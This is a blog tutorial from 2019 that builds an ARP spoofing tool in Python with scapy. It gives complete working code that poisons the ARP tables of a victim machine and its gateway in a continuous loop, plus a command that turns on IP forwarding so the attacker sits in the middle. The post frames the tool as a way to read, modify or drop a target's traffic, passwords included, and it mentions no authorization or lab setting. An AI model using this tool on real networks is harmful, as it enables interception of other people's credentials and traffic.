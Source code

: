 ```yaml
---
layout: post
comments: true
title:  "Build an ARP Spoofing Tool Using Python"
date:   2019-03-09 00:02:14
categories: Python, ARP Spoofing, ARP Table Poisoning, Kali, Scapy, Layer 2.5, Data Link Layer
---
```


In this documentation, I will go through the process on how to build an ARP Spoofing program which will enable us to redirect the flow of packets. The main focus on using this tool will be to redirect packets to flow through our computer.

Therefore, any requests sent and responses received by the target client computer, will have to flow through our computer (attack machine) since we are the MITM (Man In The Middle). Hence, images, usernames, passwords, websites or any information entered by the target client will have to flow through our attack machine. Then, by using the ARP Spoofing tool, we can read this information, modify it, or even drop the packets. This is all possible because ARP is not very secure.

Before I go into why ARP is not secure, let's discuss why ARP is used. ARP is used so that clients can identify other connected clients on the same network, and next, they can get the clients MAC address. The reason being, clients on the same network connect with each other using the MAC address. (Note: here, each client device on the same network has an ARP table which links ip addresses to it's respective MAC address.) In order to view your network ARP table, type the following in terminal:
```shell
arp -a
```

Unfortunately, the MAC address can be modified by exploiting the ARP protocol. In order to exploit this protocol we will send *two ARP responses*. One response to the gateway AP(i.e. router access point) and another response to the target client (i.e. victim's computer). Here, we will tell the gateway that our attack machine is at the IP of the target client. Hence, the gateway AP will update it's ARP table and it will associate the IP of the target client with our attack machine's MAC address. We will do the same response process with the target client machine, making it modify its ARP table so that it will associate thee IP of the gateway AP with our attack machine's MAC address.

Therefore, we end up fooling the target client computer that our attack machine is the gateway AP and the gateway AP will think our attack machine is the target client computer.
Hence, to sum everything up, whenever the target client sends a request, it will flow through our attack machine and then we will port forward it to the gateway AP. The same process applies for the gateway AP. So, when the gateway AP sends a response it will flow through our attack machine and then we will send that response to the target client. Therefore, this makes us the man in the middle of the connection.

*Why ARP is not secure?*
As listed above, clients *accept responses* even if they did not send a request. Also, the reason clients accept responses is because they trust the incoming response without any form of verification.

**Process on How to Build an ARP Spoofing Program**

1. Since the attack machine is not a router, when it get's requests, it stops the packets from flowing through it and going to the router. This happens because it is a security feature in Linux systems. Therefore, we need to enable port forwarding, so that the attack machine will allow packets to flow through it just like a router. In order to accomplish this, open a terminal window and type the following command to enable port forwarding.
    ```shell
    echo 1 > /proc/sys/net/ipv4/ip_forward
    ```
(Note: Linux comes with a built in ARP Spoofing tool, However let's create our own ARP Spoofing tool.)

2. Next, let's create a new python file using any IDE you prefer and we will start off by importing the the necessary modules to complete the task. Here, I added a shebang at the beginning of the script, so that the script recognizes the interpreter type when you execute the script from shell. Here, by using the scapy module, we can create, and send an ARP response. Plus, we can use scapy to extract a MAC address. The time module will help us handle time delay to send packets, which you will see further into the documentation. Finally, the sys module will help us flush the output buffer which you will also see in the later steps.
    ```python
    #!usr/bin/env python

    import scapy.all as scapy
    import time
    import sys
    ```

3. Next, we will create two global variables to save the target client IP address, and the gateway access point IP address.
    ```python
    target_ip = "10.15.20.6"
    gateway_ip = "10.15.20.1"
    ```

4. Next, let's create a function to extract MAC address. Here, we will use the scapy module, which lets us do the same functions as Netdiscover and NMap: to scan the network. (See python comments for info.)
    ```python
    def get_mac(ip):
        arp_request = scapy.ARP(pdst=ip)  #using scapy module to create ARP packet object and .ARP to ask who has target client IP
        broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff") #set destination MAC to broadcast MAC
        arp_request_broadcast = broadcast/arp_request #scapy allows us to combine both ARP request and also broadcast at the same time
        answered_list = scapy.srp(arp_request_broadcast, timeout=1, verbose=False)[0] #send packet and receive response
        return answered_list[0][1].hwsrc
    ```
(Note: Disable NAT network in using virtual machine when using an external adapter to discover systems.)

5. Next, let's go ahead and create a function to create ARP responses and send those responses in order to spoof the desired machine. Which means, we can poison the ARP table, which will put is in the middle of the connection. From the scapy module, we will use the "op" field and let's set it to the integer 2 in order to send an ARP response. Because, by default "op" is set to 1, which means it will always send an ARP request when an ARP packet is created. Below, pdst is set to the target clients IP address (destination IP: which is the target machine to be poisoned), hwdst is set to target clients MAC address which is obtained from the get_mac function and psrc is set to the IP address we want to spoof. Basically psrc is the source of where the response is coming from and here we fake the IP and set the IP of the AP router.
    ```python
    def spoof(target_ip, spoof_ip):
        target_mac = get_mac(target_ip)
        packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
        scapy.send(packet, verbose=False) #scapy.send will send the packets for us
    ```
(Note: Do route -n to get IP of router and also for more info on scapy, go to python interpreter and type "import scapy.all as scapy" and then type "scapy.ls(scapy.ARP)" to view all the option fields of the scapy module. Also, even tho we dont mention it above, scapy will set the hwsrc to our attack machine MAC address by default.) Next, once scapy.send is executed, the ARP table of target client machine should be poisoned. Do "arp -a" from target client side to confirm.

6. Next, we will write a function to restore the ARP tables, so that when we quit the program it will revert the ARP tables and associate the IP address with the correct Mac address. Hence, the traffic can start flowing normally. The need for a restore function is if the ARP table is not restored, we will still be the MITM even if we quit the program. (Note: After some time the ARP tables will go back to default, because we are not continuously sending spoofing response packets. However, it is better practice to restore everything to the way it was, when we quit the program.)
    ```python
    def restore(destination_ip, source_ip):
        destination_mac = get_mac(destination_ip)
        source_mac = get_mac(source_ip)
        packet = scapy.ARP(op=2, pdst=destination_ip, hwdst=destination_mac, psrc=source_ip, hwsrc=source_mac)
        scapy.send(packet, count=4, verbose=False) #here count=4 is to send packet response 4 times. verbose=False so that scapy.send runs in the background
    ```
(Note: here we need to specify the source MAC address - hwsrc or else scapy will set the hwsrc to our attack machine MAC address by default.)

7. Finally, we can start using the above functions. We will use the spoof function twice, the first spoof call is to tell the target client machine (victim) that our attack machine has the gateway AP (router) MAC address. A second spoof function call is to tell the gateway AP (router) that our attack machine has the target client machine (victim) MAC addresss. This will make us the MITM of the connection. However, in order to maintain the poisoning of the target ARP tables, we need to continuously send ARP responses. Therefore, we will do a while loop that will send a ARP spoof to both target client and gateway AP every two seconds. This is possible by using the time module, which will put the while loop to sleep for 2 seconds.
    ```python
    try:
        sent_packets_count = 0
        while True:
            spoof(target_ip, gateway_ip)
            spoof(gateway_ip, target_ip)
            sent_packets_count = sent_packets_count + 2
            print("\r[+] Packets sent: " + str(sent_packets_count)),
            sys.stdout.flush()
            time.sleep(2)
    except KeyboardInterrupt: #to make the tool UI pretty, use try/except block, so that error is not shown when user does a keyboard interruption.
        print("\n[-] CTRL + C : Keyboard Interruption => Restoring ARP tables now. Please wait...\n")
        restore(target_ip, gateway_ip)
        restore(gateway_ip, target_ip)
    ```
(Note: python buffers everything when you have a comma after a print statement. Meaning, everything will be printed in the background, and you will see all the print statements when you CTRL + C. Therefore, we will tell python to flush this buffer and print statements instantly using sys.stdout.flush() Therefore, the program won't wait for the user to CTRL + C in order to show output of print statements. After this line of code, everything will start to print in one line. To avoid this ugly screen output, I over-write the previous print statement and replace a new print statement by using '\r' which tells python to print statements from the start of the line. Hence, now it will dynamically print the sent packets statement.)

* The above sys.stdout.flush() only works with python 2.7 and below. For python 3 use:
```python
    print("\r[+] Packets sent: " + str(sent_packets_count), end="") #Where end="" will tell python not to add anything to the end of the print statement.
```
